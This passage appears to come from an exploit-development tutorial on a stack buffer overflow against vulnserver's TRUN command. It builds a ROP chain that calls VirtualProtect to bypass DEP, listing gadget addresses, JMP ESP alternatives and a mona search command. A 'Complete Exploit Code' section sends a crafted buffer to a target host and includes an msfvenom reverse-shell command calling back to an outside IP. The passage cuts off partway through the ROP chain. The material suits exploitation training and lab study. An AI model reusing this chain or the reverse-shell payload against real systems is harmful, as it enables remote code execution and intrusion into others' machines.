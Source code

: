 2. **Manual parameter pushing (more complex)**:
```python
# Instead of PUSHAD, manually push each parameter
# Note: This approach is much longer and more complex
manual_push = struct.pack("<I", 0x77cdeedf)  # pop edi; ret
manual_push += struct.pack("<I", 0x6250609c)  # VirtualProtect IAT
manual_push += struct.pack("<I", 0x7654321a)  # push edi; ret
# ... More pushes for each parameter
```

### 6.9 JMP ESP Gadget

```python
# JMP ESP gadget for shellcode execution
jmp_esp = struct.pack("<I", 0x625011c7)  # ptr to 'jmp esp' [essfunc.dll]
```

**Current Value**: 0x625011c7 (JMP ESP instruction)
**Reason**: This is where VirtualProtect will return after execution. It jumps to the shellcode on the stack.

**How we found it**:
```
!py mona jmp -r esp -m essfunc -cpb "\x00"
```

**Alternative Options**:
1. **CALL ESP**:
```python
jmp_esp = struct.pack("<I", 0x62501205)  # call esp
```

2. **PUSH ESP / RET**:
```python
jmp_esp = struct.pack("<I", 0x625013df)  # push esp; ret
```

## 7. Complete Exploit Code

Let's put everything together:

```python
#!/usr/bin/python
import struct
import socket

TARGET_IP = "192.168.0.112"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT)

VULNSRVR_CMD = b"TRUN /.:/"
TOTAL_BUFFER_LEN = 6000
OFFSET = 2003

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f python -b '\x00'
buf =  b"" # Shellcode generated by msfvenom - full bytes omitted for brevity
...

# Build the final ROP chain
rop = b""
# EBP - Stack pivot setup (using POP EBP # RETN as placeholder/alignment)
rop += struct.pack("<I", 0x775d8836)  # POP EBP # RETN [msvcrt.dll]
rop += struct.pack("<I", 0x775d8836)  # Value for EBP (can be anything, using gadget address)
# EBX - Setup Size parameter (0x201) for VirtualProtect
rop += struct.pack("<I", 0x75f366b4)  # POP EAX # RETN [KERNELBASE.dll]
rop += struct.pack("<I", 0xfffffdff)  # Load -0x201 into EAX
rop += struct.pack("<I", 0x76505808)  # NEG EAX # RETN [KERNEL32.DLL] (EAX = 0x201)
rop += struct.pack("<I", 0x77597926)  # XCHG EAX,EBX # RETN [msvcrt.dll] (EBX = 0x201)
```